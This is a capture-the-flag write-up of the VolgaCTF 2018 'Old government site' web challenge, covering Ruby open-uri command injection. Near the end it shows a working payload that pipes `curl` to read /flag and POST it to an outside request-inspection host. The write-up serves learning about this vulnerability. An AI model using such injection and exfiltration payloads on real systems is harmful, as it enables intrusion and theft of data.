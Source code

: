 # VolgaCTF Quals 2018 : Old government site

**Team:** NOPS
**Category:** Web
**Points:** 150
**Description:**  
It's an old government web-site. Please, don't touch it. It works properly.

## Write-up

After connecting to the website, you have access to some links, no forms. Nevertheless we saw that pages are fetched with an id: `http://old-government-site.quals.2018.volgactf.ru:8080/page?id=33`

We run a script to see if there were some hidden pages and found one with the id: `id=18`

It asks us to enter a website.
If you enter a correct website like http://google.com you have a string showing `validated` whereas is you only put google.com, it shows `error`.

When you enter a correct website, the server does a GET request on it.

So we played a bit with this field and found out that `/etc` is a correct website. We then tried with the linux filesystem `/var` and some linux commands `/bin/ls` etc and finally, we tried `/flag`. It worked. Nice, maybe it's where the flag is, but can we access it ?

Up to now, we know that the script behind is executing the command we give or send a GET request on the url.

We also know that the framework used for the website is Sinatra. if you request an unknow web page, it gives you an error.
Sinatra is in ruby.

So we have to find a function in ruby that could open a file or a URL.

We found open-uri and the vulnerabilities related to it: [sakurity.com](https://sakurity.com/blog/2015/02/28/openuri.html)

Let's try a `| ls` : it's validated. We've got a command injection. Let's craft our command so it can read the /flag file and send it to a server: `|curl -d "$(cat /flag)" -X POST http://ptsv2.com/t/3awt7-1521988385/post` (we use ptsv2 website to inspect the content of the HTTP requests)

Bingo ! We've got out flag ! 